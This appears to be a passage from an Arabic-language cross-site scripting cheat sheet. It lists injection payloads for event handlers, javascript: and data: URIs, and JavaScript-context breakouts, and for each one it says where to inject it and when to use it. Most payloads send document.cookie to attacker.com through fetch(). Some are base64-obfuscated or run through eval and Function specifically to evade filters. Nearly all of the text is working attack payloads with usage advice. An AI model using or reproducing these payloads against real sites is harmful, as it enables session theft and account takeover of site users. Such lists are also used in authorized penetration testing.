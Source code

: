   - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<img>`.
- **الحقن**: `<div tabindex=0 onfocus="fetch('http://attacker.com/log?c='+document.cookie)">Click</div>`
  - **الإدخال**: أدخل في حقل تعليق: `<div tabindex=0 onfocus="fetch('http://attacker.com/log?c='+document.cookie)">Click</div>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند التركيز على العنصر.
  - **متى يُستخدم؟**: لاستهداف أحداث التفاعل.

#### ج. حقن باستخدام URIs مشفرة 
{ #ideas_for_url /  #XSS_ecoded_payload }
استخدام بروتوكولات مثل `javascript:` أو `data:`.
- **الحقن**: `<a href="javascript:alert('XSS')">Click</a>`
  - **الإدخال**: أدخل في منشور: `<a href="javascript:alert('XSS')">Click</a>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر.
  - **متى يُستخدم؟**: لتأكيد الثغرة عند التفاعل.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log?c='+btoa(document.cookie))">Click</a>`
  - **الإدخال**: أدخل في حقل تعليق: `<a href="javascript:fetch('http://attacker.com/log?c='+btoa(document.cookie))">Click</a>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط المشفرة عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات مع تعتيم.
- **الحقن**: `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4">Click</a>`
  - **الإدخال**: `https://example.com/?q=<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4">Click</a>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر باستخدام HTML مشفر.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `javascript:`.
- **الحقن**: `<img src="javascript:fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<img src="javascript:fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الصورة (في متصفحات تدعم `javascript:` في `src`).
  - **متى يُستخدم؟**: لاستهداف متصفحات محددة.
- **الحقن**: `<iframe src="javascript:fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في حقل تعليق: `<iframe src="javascript:fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الإطار.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<img>`.

#### د. حقن في سياقات JavaScript
{ #Inline_HTML_Injection / #XSS_ecoded_payload  }
استهداف متغيرات أو تعليمات JavaScript.
- **الحقن**: `";alert('XSS');//`
  - **الإدخال**: `https://example.com/?q=";alert('XSS');//`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سياق JavaScript مثل `<script>var x="...";`.
  - **متى يُستخدم؟**: لاستهداف JavaScript.
- **الحقن**: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **الإدخال**: أدخل في حقل تعليق: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط في سياق JavaScript.
  - **متى يُستخدم؟**: لسرقة البيانات.
- **الحقن**: `"-fetch('http://attacker.com/log?c='+document.cookie)-"`
  - **الإدخال**: `https://example.com/?q="-fetch('http://attacker.com/log?c='+document.cookie)-"`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في تعبير JavaScript.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر الفواصل المنقوطة.
- **الحقن**: `eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))`
  - **الإدخال**: أدخل في منشور: `eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط في سياق JavaScript.
  - **متى يُستخدم؟**: لتجاوز فلاتر صارمة.
- **الحقن**: `Function('fetch("http://attacker.com/log?c="+document.cookie)')()`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `Function('fetch("http://attacker.com/log?c="+document.cookie)')()`
  - **كيف يعمل**: ينفذ أمر `fetch` باستخدام `Function` كنسخة ديناميكية من `eval`.